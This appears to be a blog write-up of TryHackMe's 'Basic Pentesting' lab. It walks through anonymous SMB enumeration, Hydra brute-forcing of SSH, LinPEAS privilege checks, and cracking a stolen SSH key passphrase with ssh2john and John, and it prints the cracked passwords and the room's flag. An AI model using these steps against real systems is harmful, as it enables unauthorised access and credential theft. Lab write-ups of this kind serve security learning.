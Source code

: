 ```yaml
---
date: '2025-02-01T23:03:55+05:30'
draft: false
title: 'Basic Pentesting: TryHackMe Walkthrough'
slug: basic-pentesting-thm
tags: ["tryhackme", "ctf", "pentesting", "linux", "ssh", "smb"]
category: writeups
showtoc: true
summary: A walkthrough of TryHackMe's Basic Pentesting room covering web application testing, SMB enumeration, and SSH key-based privilege escalation
description: Complete guide for TryHackMe's Basic Pentesting challenge demonstrating SMB enumeration, password cracking, and SSH private key exploitation
---
```


# Basic Pentesting: THM Walkthrough

## Initial Reconnaissance

- Server running Apache/2.4.18 (Ubuntu)
- SMB version 2.5.12 identified
- Development path containing text files discovered
- Two users identified: Jan and Kay

## SMB Enumeration

Anonymous login was enabled by default on the SMB shares. Used the following methods for enumeration:

1. Direct SMB connection:
```bash
smbclient //ip/anonymous
```

2. Enhanced enumeration using enum4linux (recommended for better results)

## User Access - Jan

Successfully brute-forced Jan's password using Hydra, resulting in SSH access:

```bash
[22][ssh] host: 10.10.237.90 login: jan password: armando
```

### File Transfer Tip
When encountering permission errors during SCP file transfers, use the `/dev/shm` path on the remote host:

```bash
scp linpeas.sh remote-user@remote-ip:/dev/shm
```

## Privilege Escalation to Kay

1. Ran LinPEAS on Jan's account which revealed Kay's exposed private key

2. Attempted to use Kay's private key for SSH access:
```bash
ssh -i id_rsa_kay user@ip
```

3. Encountered passphrase protection on the key

4. Cracked the passphrase using ssh2john:
```bash
ssh2john id_rsa_kay > hash.txt
john hash.txt --wordlist=/path/of/rockyou --format=SSH
```

5. Retrieved passphrase: `beeswax`

## Flag

Successfully accessed Kay's account and viewed pass.bak containing the flag:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy
```

## Key Findings

1. Weak password policy for Jan's account
2. Exposed SSH private key for Kay's account
3. Misconfigured SMB with anonymous access
4. Sensitive files in development path
